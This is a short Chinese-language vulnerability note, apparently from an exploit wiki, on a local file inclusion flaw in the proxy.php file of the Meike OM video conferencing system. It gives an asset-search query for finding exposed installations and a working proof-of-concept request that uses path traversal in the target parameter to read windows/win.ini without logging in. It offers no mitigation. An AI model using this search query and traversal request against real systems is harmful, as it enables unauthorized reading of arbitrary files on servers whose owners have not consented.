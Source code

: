 # 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

<a-checkbox checked>魅课OM视频会议系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="OMEETING-OM视频会议"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630909738237-5162ec96-62e1-4c6b-85ed-f68afa1ffb59.png)

验证POC

```python
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![img](/assets/PeiQi-Wiki/img/1630910015996-7abd7e35-7bb3-4fdc-b0b9-e203546a0de2.png)